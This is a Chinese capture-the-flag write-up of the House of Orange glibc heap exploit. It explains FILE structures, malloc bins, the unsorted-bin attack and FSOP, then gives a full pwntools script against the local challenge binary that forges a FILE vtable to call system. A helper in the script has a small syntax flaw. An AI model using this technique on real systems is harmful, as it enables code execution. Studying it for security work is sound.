

House_of_Orangede 是来自Hitcon CTF 2016中的一道同名题目，是一种通过unstoredbin attack修改`_IO_list_all`指针，伪造`_IO_FILE_plus`结构体和`vtable`虚表，进而修改虚表函数劫持控制流的方法，glibc在2.24版本后加入了对虚表的验证，这题用的glibc版本是2.23，还没有虚表相关的安全检查。

网上关于House of Orange的资料有很多，我就从另一个角度来讲一下我遇到的问题和知识点。

## 0x00 FILE、_IO_FILE、_IO_FILE_plus、_IO_list_all、vtable是什么

FILE 在 Linux 系统的标准 IO 库中是用于描述文件的结构，称为文件流。 FILE 结构在程序执行 fopen 等函数时会进行创建，并分配在堆中。FILE 结构定义在 libio.h 中，结构体名为`_IO_FILE`
```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain; /* offset 0x68 (64bits) */

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE //开始宏判断（这段判断结果为否，所以没有定义_IO_FILE_complete，下面还是_IO_FILE）
};

struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif //结束宏判断
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001 //依然是_IO_FILE的内容
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;
# endif
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};
```

`_IO_FILE_plus`各项偏移如下：

```python
_IO_FILE_plus = {
	'i386':{
		0x0:'_flags',
		0x4:'_IO_read_ptr',
		0x8:'_IO_read_end',
		0xc:'_IO_read_base',
		0x10:'_IO_write_base',
		0x14:'_IO_write_ptr',
		0x18:'_IO_write_end',
		0x1c:'_IO_buf_base',
		0x20:'_IO_buf_end',
		0x24:'_IO_save_base',
		0x28:'_IO_backup_base',
		0x2c:'_IO_save_end',
		0x30:'_markers',
		0x34:'_chain',
		0x38:'_fileno',
		0x3c:'_flags2',
		0x40:'_old_offset',
		0x44:'_cur_column',
		0x46:'_vtable_offset',
		0x47:'_shortbuf',
		0x48:'_lock',
		0x4c:'_offset',
		0x54:'_codecvt',
		0x58:'_wide_data',
		0x5c:'_freeres_list',
		0x60:'_freeres_buf',
		0x64:'__pad5',
		0x68:'_mode',
		0x6c:'_unused2',
		0x94:'vtable'
	},

	'amd64':{
		0x0:'_flags',
		0x8:'_IO_read_ptr',
		0x10:'_IO_read_end',
		0x18:'_IO_read_base',
		0x20:'_IO_write_base',
		0x28:'_IO_write_ptr',
		0x30:'_IO_write_end',
		0x38:'_IO_buf_base',
		0x40:'_IO_buf_end',
		0x48:'_IO_save_base',
		0x50:'_IO_backup_base',
		0x58:'_IO_save_end',
		0x60:'_markers',
		0x68:'_chain',
		0x70:'_fileno',
		0x74:'_flags2',
		0x78:'_old_offset',
		0x80:'_cur_column',
		0x82:'_vtable_offset',
		0x83:'_shortbuf',
		0x88:'_lock',
		0x90:'_offset',
		0x98:'_codecvt',
		0xa0:'_wide_data',
		0xa8:'_freeres_list',
		0xb0:'_freeres_buf',
		0xb8:'__pad5',
		0xc0:'_mode',
		0xc4:'_unused2',
		0xd8:'vtable'
	}
}
```

进程中的`_IO_FILE`结构会通过其结构体中`struct _IO_FILE *_chain`域进行链接，`_IO_FILE_plus`包含了结构体_IO_FILE和一个指向虚表的指针

```c
extern struct _IO_FILE_plus *_IO_list_all;

struct _IO_FILE_plus
{
    _IO_FILE    file;
    IO_jump_t   *vtable;
}
```

`_IO_list_all`是一个指向`_IO_FILE_plus`结构体的指针，vtables是一个指向 IO_jump_t(虚表)的指针， IO_jump_t 中保存了一些函数指针，一系列标准 IO 函数执行时会调用这些函数指针

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

下面是调用流程



## 0x01 为什么unsortedbin中的chunk会变成smallbin chunk，以及unsortedbin attack的说明

glibc分配chunk的过程如下

1. 获取分配区的锁，为了防止多个线程同时访问同一个分配区，在进行分配之前需要取得分配区域的锁。线程先查看线程私有实例中是否已经存在一个分配区，如果存在尝试对该分配区加锁，如果加锁成功，使用该分配区分配内存，否则，该线程搜索分配区循环链表试图获得一个空闲（没有加锁）的分配区。如果所有的分配区都已经加锁，那么ptmalloc会开辟一个新的分配区，把该分配区加入到全局分配区循环链表和线程的私有实例中并加锁，然后使用该分配区进行分配操作。开辟出来的新分配区一定为非主分配区，因为主分配区是从父进程那里继承来的。开辟非主分配区时会调用mmap()创建一个sub-heap，并设置好top chunk。

2. 将用户的请求大小转换为实际需要分配的chunk空间大小。

3. 判断所需分配chunk的大小是否满足chunk_size <= max_fast，如果是的话，则转下一步，否则跳到第5步。

4. 首先尝试在fast bins中取一个所需大小的chunk分配给用户。如果可以找到，则`分配结束`。否则转到下一步。

5. 判断所需大小是否处在small bins中，即判断chunk_size < 512B是否成立。如果chunk大小处在small bins中，则转下一步，否则转到第7步。

6. 根据所需分配的chunk的大小，找到具体所在的某个small bin，从该bin的尾部摘取一个恰好满足大小的chunk。若成功，则分配结束，否则，转到下一步。

7. 到了这一步，说明需要分配的是一块大的内存，或者small bins中找不到合适的 chunk。于是，ptmalloc首先会遍历fast bins中的chunk，将相邻的chunk进行合并，并链接到unsorted bin中。然后遍历unsorted bin中的chunk，如果unsorted bin只有一个chunk，并且这个chunk在上次分配时被使用过，并且所需分配的chunk大小属于small bins，并且chunk的大小大于等于需要分配的大小，这种情况下就直接将该chunk进行切割，`分配结束`，否则将根据chunk的空间大小将其放入small bins或是large bins中，遍历完成后，转入下一步。

8. 到了这一步，说明需要分配的是一块大的内存，或者small bins和unsorted bin中都找不到合适的 chunk，并且fast bins和unsorted bin中所有的chunk都清除干净了。从large bins中按照“smallest-first，best-fit”原则，找一个合适的 chunk，从中划分一块所需大小的chunk，并将剩下的部分链接回到bins中。若操作成功，则分配结束，否则转到下一步。

9. 如果搜索fast bins和bins都没有找到合适的chunk，那么就需要操作top chunk来进行分配了。判断top chunk大小是否满足所需chunk的大小，如果是，则从top chunk中分出一块来。否则转到下一步。

10. 到了这一步，说明top chunk也不能满足分配要求，所以，于是就有了两个选择: 如果是主分配区，调用sbrk()，增加top chunk大小；如果是非主分配区，调用mmap来分配一个新的sub-heap，增加top chunk大小；或者使用mmap()来直接分配。在这里，需要依靠chunk的大小来决定到底使用哪种方法。判断所需分配的chunk大小是否大于等于 mmap分配阈值，如果是的话，则转下一步，调用mmap分配，否则跳到第12步，增加top chunk 的大小。

11. 使用mmap系统调用为程序的内存空间映射一块chunk_size align 4kB大小的空间。 然后将内存指针返回给用户。

12. 判断是否为第一次调用malloc，若是主分配区，则需要进行一次初始化工作，分配一块大小为(chunk_size + 128KB) align 4KB大小的空间作为初始的heap。若已经初始化过了，主分配区则调用sbrk()增加heap空间，分主分配区则在top chunk中切割出一个chunk，使之满足分配需求，并将内存指针返回给用户。

在第7步，四个判断条件如下：

```c
if (in_smallbin_range (nb) &&		
              bck == unsorted_chunks (av) &&	//pass
              victim == av->last_remainder &&
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))
```

因为通过溢出，已经将unsortedbin chunk的bk覆盖为了`_IO_list_all-0x10`所以这条件不成立，之后是另一个判断：

```c
 /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

上述代码是unsortedbin attack的关键，覆盖unsortedbin chunk的bk时，也将fd覆盖为了垃圾数据，此时glibc判断unsortedbin中不止有一个freechunk，就将其解引用，此时指针`_IO_list_all`就指向了`main_arena`结构体中top对应的地址，即main_arena+88也就是unsorted bin头的地址，unsortedbin attack完成。

下面说一下为什么我们修改unsortedbin chunk的大小为0x61后，再次堆申请操作后，该chunk被链接到smallbin中。

在上面unsortedbin chunk解引用后：

```c
/* place chunk in bin */
          if (in_smallbin_range (size))
            {
              victim_index = smallbin_index (size);
              bck = bin_at (av, victim_index);
              fwd = bck->fd;
            }
```

这个size是unsortedbin chunk的大小，上面的分配都失败后，glibc会把unsortedbin中的chunk插入到smallbins或者largebins。

所以修改unsortedbin chunk的大小为0x61后，再次堆申请操作后，该chunk被链接到smallbin中。

## 0x02 为什么要让topchunk以brk的方式扩容

malloc小于128k的内存，使用brk分配内存，将heap_base往高地址推(只分配虚拟空间，不对应物理内存(因此没有初始化)，第一次读/写数据时，引起内核缺页中断，内核才分配对应的物理内存，然后虚拟地址空间建立映射关系)。

malloc大于128k的内存，使用mmap分配内存，在堆和栈之间找一块空闲内存分配(对应独立内存，而且初始化为0)

为了方便对内存的读写，所以要让topchunk以brk的方式扩容

## 0x03 为什么chunk中会泄露libc和chunk的地址

由于largebin的链表中每个bin大小不一定相同，所以fd_nextsize和bk_nextsize记录了自己前一个和后一个与自己不同大小的bin的地址(只会记录同一链表上的关系，如果链表上只有一个bin的话则其两个nextsize都指向自己)，所以会泄露heap地址。

fd，bk中泄露的是main_arean的地址

## 0x04 House of Orange程序分析

通过分析程序，可以总结有两个结构体

```c
struct house{
    8bytes struct orange * p;
    8bytes char * name;
}

struct orange{
    4bytes int price;
    4bytes int color;
}
```

当程序执行完一次build函数时，堆中的结构如下

```
+------------+
| orange * p |	#chunksize:0x20 			低地址
| char * name|
+------------+
|    name    |  
+------------+
|  int price |  #chunksize:0x20				高地址
|  int color | 
+------------+
```

upgrade函数存在溢出，修改name的内容，可以修改topchunk的数据

## 0x05 利用过程**FSOP**(File Stream Oriented Programming)

### 利用的触发点

我们修改了unsortedbin chunk的fd和bk，所以malloc时会出错

```c
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)|| __builtin_expect (victim->size > av->system_mem, 0))
    malloc_printerr (check_action, "malloc(): memory corruption", chunk2mem (victim), av);
```

函数调用链为：`malloc_printerr->__libc_message->abort->_IO_flush_all_lockp`

最后`_IO_flush_all_lockp`会调用vtable中的`_IO_OVERFLOW`函数，调用关系如下：


所以最终目的是修改vtable中的`_IO_OVERFLOW`为`system`

### 利用条件

```c
int _IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
        if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
        || (_IO_vtable_offset (fp) == 0
        && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
        ) && _IO_OVERFLOW (fp, EOF) == EOF)
        ...
        ...
        fp = fp->_chain;
  }
}	
```

观察`_IO_flush_all_lockp`可以发现，要想成功调用`_IO_OVERFLOW`需要一些条件：

- fp->_mode <= 0
- fp->_IO_write_ptr > fp->_IO_write_base
  
  或
  
- _IO_vtable_offset (fp) == 0
- fp->_mode > 0
- fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
第一种利用条件比较好构造，因此尝试用第一种

### 利用过程

1. 获得一个unsortedbin。通过0x01中关于glibc分配chunk过程的内容，我们知道，当申请内存大小大于topchunk的大小时，程序会调用`sysmalloc`来向系统申请更多的空间，具体分为sbrk()和mmap()，当申请的内存小于mmap_threshold(128*1024Bytes)时，会调用sbrk()申请内存，在原有堆上进行扩容。同时sysmalloc会调用_int_free()，释放原有的topchunk到unsortedbin。
2. 通过unsortedbin attack将`_IO_list_all`指针指向'main_arena+88'，即将main_arena结构体中top对应的地址，下为封装main_arena信息的结构体

   ```c
   struct malloc_state
   {
     /* Serialize access.  */
     mutex_t mutex;
   
     /* Flags (formerly in max_fast).  */
     int flags;
   
     /* Fastbins */
     mfastbinptr fastbinsY[NFASTBINS];
   
     /* Base of the topmost chunk -- not otherwise kept in a bin */
     mchunkptr top;//此地址将被写入_IO_list_all
   
     /* The remainder from the most recent split of a small request */
     mchunkptr last_remainder;
   
     /* Normal bins packed as described above */
     mchunkptr bins[NBINS * 2 - 2];
   
     /* Bitmap of bins */
     unsigned int binmap[BINMAPSIZE];
   
     /* Linked list */
     struct malloc_state *next;
   
     /* Linked list for free arenas.  Access to this field is serialized
        by free_list_lock in arena.c.  */
     struct malloc_state *next_free;
   
     /* Number of threads attached to this arena.  0 if the arena is on
        the free list.  Access to this field is serialized by
        free_list_lock in arena.c.  */
     INTERNAL_SIZE_T attached_threads;
   
     /* Memory allocated from the system in this arena.  */
     INTERNAL_SIZE_T system_mem;
     INTERNAL_SIZE_T max_system_mem;
   };
   ```

   

3. glibc将`main_arena+88`当成了一个`IO_FILE_plus`结构体，发现一些if不满足，通过`struct _IO_FILE *_chain`寻找下一下`IO_FILE_plus`文件流

4. `struct _IO_FILE *_chain`在`_IO_FILE_plus`结构体偏移`0x68`处，而 `main_arena+88` (unsorted bin头的地址) 偏移0x68处正好是存储0x60 freechunk的smallbin的bk，而里面的内容时可以控制的

   ```c
   +0x00 [       top        |  last_remainder   ]
   +0x10 [ unsorted bin fd  |  unsorted bin bk  ]
   +0x20 [ smallbin 0x20 fd | smallbin 0x20 bk  ]
   +0x30 [ smallbin 0x30 fd | smallbin 0x30 bk  ]
   +0x40 [ smallbin 0x40 fd | smallbin 0x40 bk  ]
   +0x50 [ smallbin 0x50 fd | smallbin 0x50 bk  ]
   +0x60 [ smallbin 0x60 fd | smallbin 0x60 bk  ]
   ```

5. 我们可以将原来是topchunk，被glibc释放掉变成unsortedbin chunk的chunksize改为0x61，通过标题0x01可知，该chunk会被加入到smallbins中，该smallbin的fd，bk都会变成该chunk的地址。当前 `_IO_list_all`指向的内容不满足执行_IO_OVERFLOW，进而通过`fp->_chain`寻找下一个`_IO_FILE`时，就会根据smallbin的bk寻找到0x60`smallbin`中的chunk。

6. 之后回调用虚表函数，我们将vtable指针修改为伪造的`_IO_FILE_plus`chunk的后面的堆内存，将`_IO_OVERFLOW`修改为system，即成功劫持的控制流

## 0x06 EXP

```python
#/usr/bin/env python
from pwn import *
p = process('./houseoforange')
elf = ELF('./houseoforange')
libc = ELF('./libc')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def gdb(a=''):
	gdb.attach(p)
  if a != ''
		raw_input(a)

def build(length,name):
	p.recvuntil('Your choice : ')
	p.sendline('1')
	p.recvuntil('Length of name :')
	p.sendline(str(length))
	p.recvuntil('Name :')
	p.send(name)
	p.recvuntil('Price of Orange:')
	p.sendline('2')
	p.recvuntil('Color of Orange:')
	p.sendline('2')
	p.recvuntil('Finish')

def see():
	p.recvuntil('Your choice :')
	p.sendline('2')

def upgrade(length,name):
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('Length of name :')
	p.sendline(str(length))
	p.recvuntil('Name:')
	p.send(name)
	p.recvuntil('Price of Orange: ')
	p.sendline('2')
	p.recvuntil('Color of Orange: ')
	p.sendline('2')
	p.recvuntil('Finish')


def pwn():
	#step1. alter the top chunk's size
	build(0x10,'aaaa')
	payload = 'a'*0x18 + p64(0x21) + p64(0)*3 + p64(0xfa1)
	upgrade(0x100,payload)
	build(0x1000,'cccccccc')
	
	#step2. leak the address
	build(0x400,'aaaaaaaa')	#chunk*
	see()
	p.recvuntil('a'*8)
	addr = u64(p.recvline()[:-1].ljust(8,'\x00'))
	libc_base = addr -0x3C4B20-1640
	log.success('libc_base:'+hex(libc_base))
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr: '+hex(system_addr))
	upgrade(0x400,'a'*16)
	see()
	p.recvuntil('a'*16)
	heap_base = u64(p.recvline()[:-1].ljust(8,'\x00'))-0xc0
	log.success('chunk_addr: '+hex(heap_base))

	IO_list_all_addr = libc_base+libc.symbols['_IO_list_all']
	log.success('IO_list_all_addr: '+hex(IO_list_all_addr))
	payload = 'a'*0x400
	payload += p64(0)+p64(0x21)+p32(1)+p32(0x1f)+p64(0)	

  #step3. forge data
	fake_file = '/bin/sh\x00'+p64(0x61)
	fake_file += p64(0) + p64(IO_list_all_addr-0x10)
	fake_file += p64(0)+p64(1)
	fake_file = fake_file.ljust(0xc0,'\x00')
	fake_file += p64(0) #mode<=0
	fake_file += p64(0)
	fake_file += p64(0)
	fake_file += p64(heap_base+0x5d0)#pointer to vtable
	payload += fake_file
	payload += p64(0)*3 # vtable
	payload += p64(system_addr)#_IO_OVERFLOW

  #step4. attack
	upgrade(0x800,payload)	
	p.recvuntil('Your choice : ')
	p.sendline('1')
	p.interactive()

if __name__ == '__main__':
	pwn()
```


## 0x07 REFFERENCE

[理解 glibc malloc：malloc() 与 free() 原理图解]https://blog.csdn.net/maokelong95/article/details/52006379